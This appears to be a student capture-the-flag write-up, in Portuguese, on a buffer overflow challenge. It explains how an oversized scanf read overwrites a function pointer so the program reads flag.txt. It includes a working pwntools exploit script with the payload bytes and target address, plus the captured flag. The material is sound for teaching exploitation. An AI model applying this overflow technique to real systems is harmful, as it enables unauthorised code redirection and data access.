

# CTF 5 - Buffer Overflow

## Ambiente

> Começamos por preparar o ambiente para este CTF executando os comandos:

```
$ echo 'export PATH="$HOME/.local/bin:$PATH"' >> .bashrc
$ python3 -m pip install --upgrade pwntools

$ sudo apt update
$ sudo apt install checksec

$ sudo apt install gcc-multilib
```

## Tarefas

> Começamos por correr o comando `$ checksec program` e obtivemos o seguinte output:


> Analisando o código source disponibilizado podemos concluir que o programa tenta abrir e ler o ficheiro read.txt inicialmente com recurso à função `readtxt`. Contudo o nome do ficheiro aberto pode ser controlado, pois o programa usa o valor fornecido no `scanf` para subscrever variáveis e alterar o comportamento. Analisando o código é possível perceber também que existe um buffer overflow (a função `scanf`é utilizada inadequadamente pois permite que sejam inseridos até 45 caracteres numa variável que tinha sido declarada com um tamanho fixo de 32 bytes) e sendo assim podemos usar o overflow para sobrescrever o pointer `fun` e redirecioná-lo para a função `readtxt`, permitindo que o nome do ficheiro seja manipulado para ler o ficheiro **flag.txt** em vez de **rules.txt**

> Com base na análise feita decidimos editar o ficheiro exploit-template.py para que o payload preencha o buffer e acrescente o endereço da função readtxt e identificando **flag** como o ficheiro a ler.
```
#!/usr/bin/python3
from pwn import *

# to attack the remote server
#r = remote('ctf-fsi.fe.up.pt', 4000)
# to run locally
r = process('./program')

payload =  b"flag\0AAAAAAAAAAAAAAAAAAAAAABBBBB\xa5\x97\x04\x08"
r.recvuntil(b"flag:\n")
r.sendline(payload)

buf = r.recv().decode()
print(buf)
```

*Nota:* Para descobrirmos o endereço da função readtxt corremos o comando objdump `$ -d program | grep readtxt` e obtivemos o endereço **0x080497a5**.

> Executando o script em python fornecido (`$ python3 exploit-template.py`) conseguimos ler o ficheiro **flag.txt** e obter a flag de teste



> Tendo concluído esta tarefa com sucesso, experimentamos fazer o mesmo mas agora comentando a linha `r = process('./program')`e descomentando a linha `r = remote('ctf-fsi.fe.up.pt', 4000)` (já com a porta correta).


> Obtemos assim a flag:  ***flag{4dm1n_fun_w45_0wn3d}*** e demos como concluído este desafio!
